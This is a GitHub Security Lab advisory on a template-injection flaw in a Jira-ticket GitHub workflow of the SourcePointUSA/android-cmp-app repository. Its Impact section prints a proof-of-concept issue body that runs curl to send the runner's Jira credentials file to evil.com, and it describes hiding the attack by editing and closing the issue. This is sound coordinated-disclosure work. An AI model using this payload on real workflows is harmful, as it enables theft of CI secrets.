 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">December 3, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-208: Template injection in a GitHub workflow of SourcePointUSA/android-cmp-app repository</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>Automatic GitHub workflow in <a href="https://github.com/SourcePointUSA/android-cmp-app">SourcePointUSA/android-cmp-app</a> repository is vulnerable to template injection from user comments.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/SourcePointUSA/android-cmp-app">SourcePointUSA/android-cmp-app</a> repository</p>

<h2 id="tested-version">Tested Version</h2>

<p>Develop branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-hidden-expression-expansion-of-input-parameters-passed-to-andresilveirahgajira-create">Issue: Hidden expression expansion of input parameters passed to <code class="language-plaintext highlighter-rouge">andresilveirah/gajira-create</code></h3>

<p><a href="https://github.com/SourcePointUSA/android-cmp-app/blob/develop/.github/workflows/CreateJiraTicket.yml"><code class="language-plaintext highlighter-rouge">Create Issue</code> step in CreateJiraTicket.yml</a> workflow is vulnerable to template injection.</p>

<p><code class="language-plaintext highlighter-rouge">${{ github.event.issue.title }}</code> and <code class="language-plaintext highlighter-rouge">${{ github.event.issue.body }}</code> are used to format input values to <code class="language-plaintext highlighter-rouge">andresilveirah/gajira-create</code> action:</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="pi">-</span> <span class="na">name</span><span class="pi">:</span> <span class="s">Create Issue</span>
  <span class="na">id</span><span class="pi">:</span> <span class="s">create</span>
  <span class="na">uses</span><span class="pi">:</span> <span class="s">andresilveirah/gajira-create@master</span>
  <span class="na">with</span><span class="pi">:</span>
    <span class="na">project</span><span class="pi">:</span> <span class="s">SP</span>
    <span class="na">issuetype</span><span class="pi">:</span> <span class="s">Bug</span>
    <span class="na">summary</span><span class="pi">:</span> <span class="s2">"</span><span class="s">[Android][TCFv2]</span><span class="nv"> </span><span class="s">${{github.event.issue.title}}"</span>
    <span class="na">description</span><span class="pi">:</span> <span class="s2">"</span><span class="s">${{github.event.issue.body}}</span><span class="se">\n</span><span class="nv"> </span><span class="s">This</span><span class="nv"> </span><span class="s">issue</span><span class="nv"> </span><span class="s">was</span><span class="nv"> </span><span class="s">reported</span><span class="nv"> </span><span class="s">by</span><span class="nv"> </span><span class="s">${{github.event.issue.user.login}}</span><span class="nv"> </span><span class="s">via</span><span class="nv"> </span><span class="s">GitHub.</span><span class="se">\n</span><span class="nv"> </span><span class="s">${{github.event.issue.html_url}}"</span>
    <span class="na">labels</span><span class="pi">:</span> <span class="s2">"</span><span class="s">In-App,GitHub"</span>
</code></pre></div></div>

<p>The <code class="language-plaintext highlighter-rouge">andresilveirah/gajira-create</code> is in fact an outdated fork of the <code class="language-plaintext highlighter-rouge">Atlassian/gajira-create</code> action. The action has a hidden feature - it expands <code class="language-plaintext highlighter-rouge">{{}}</code> internally. This way when the comment body contains an expression in double curly braces it is evaluated by node.js in these actions.</p>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary code execution in the context of GitHub runner. For example a user may create an issue with the body:</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{{</span> <span class="nx">process</span><span class="p">.</span><span class="nx">mainModule</span><span class="p">.</span><span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">child_process</span><span class="dl">'</span><span class="p">).</span><span class="nx">exec</span><span class="p">(</span><span class="s2">`curl -d @</span><span class="p">${</span><span class="nx">process</span><span class="p">.</span><span class="nx">env</span><span class="p">.</span><span class="nx">HOME</span><span class="p">}</span><span class="s2">/.jira.d/credentials http://evil.com`</span><span class="p">)</span> <span class="p">}}</span>
</code></pre></div></div>

<p>which will exfiltrate the secret Jira API token to the attacker controlled server. To make the attack less visible an attacker may modify the issue to <code class="language-plaintext highlighter-rouge">Never mind my bad</code> and close it.</p>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/29/2020: Report sent to vendor</li>
  <li>11/06/2020: Issue resolved</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-208</code> in any communication regarding this issue.</p>

   